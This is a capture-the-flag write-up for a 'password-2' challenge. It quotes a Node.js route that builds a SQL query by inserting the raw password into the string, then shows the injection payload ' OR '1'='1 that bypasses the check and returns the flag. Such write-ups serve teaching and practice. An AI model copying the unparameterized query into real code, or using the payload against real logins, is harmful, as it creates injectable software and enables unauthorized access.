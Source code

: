 # password-2
## Solved By: [Blenderwizard](https://github.com/Blenderwizard)
## Worth: 183 points
## Total Solves: 262
## Solution

The server is vulnurable to SQL injection. Output is not sanitized and used directly in the SQL Query.

`index.js`
``` javascript
app.post('/password', (req, res) => {
    const password = (req.body.password ?? '').toString()
    const result = db.prepare(
		// Password is not sanitized
        `SELECT password FROM passwords WHERE password='${password}';`
    ).get()
    if (result) res.json({ success: true, flag: FLAG })
    else res.json({ success: false })
})
```

Using this we can pass `' OR '1'='1` as a password, causing the database to execute `SELECT password FROM passwords WHERE password='' OR '1'='1';`. Result evaluates to true, and we recive the flag.